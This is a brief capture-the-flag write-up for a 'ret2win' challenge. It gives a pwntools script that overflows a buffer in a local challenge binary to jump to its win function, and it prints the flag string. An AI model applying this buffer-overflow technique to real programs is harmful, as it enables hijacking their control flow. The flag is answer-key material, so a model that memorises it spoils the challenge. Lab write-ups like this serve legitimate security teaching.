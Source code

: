 # ret2win

## Description
Win the flag!

## Writeup
```python
#! /bin/python3
from pwn import *
elf = context.binary = ELF('./chall')
io = elf.process()
io.sendline(b'A'*64+pack(elf.symbols.win))
io.recvline()
print("FLAG: " + io.recvline().decode('utf-8'))
```

## FLAG
COPS{y0u_w1n_7h15_fl4g}
